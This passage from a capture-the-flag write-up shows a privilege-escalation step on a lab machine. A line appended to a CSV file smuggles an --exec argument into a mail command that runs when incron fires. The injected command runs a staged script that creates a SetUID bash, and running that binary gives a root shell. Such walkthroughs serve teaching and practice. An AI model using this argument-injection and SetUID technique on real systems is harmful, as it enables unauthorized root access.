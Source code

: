 ### Path to root

With a shell as www-data, I don’t have to play with the store at all. I have write access to `leave_requests.csv`, and I can identify the incron that’s sending mail when that updates the same was as [above](#processes). I’ll stage a script to create a SetUID `bash` (just like [above](#inject-into-mail), making sure to `chmod +x` the script as well).

With that, I can write the `main` injection directly into the file:

```

www-data@awkward:~/private$ echo '0xdf --exec="!/dev/shm/0xdf.sh",,today,tomorrow,Pending' >> leave_requests.csv 

```

When the cron runs (almost instantly), there’s a `/tmp/0xdf` owned by root and with SetUID bit on:

```

www-data@awkward:~/private$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1396520 Feb 17 23:32 /tmp/0xdf

```

It gives a root shell:

```

www-data@awkward:~/private$ /tmp/0xdf -p
0xdf-5.1#

```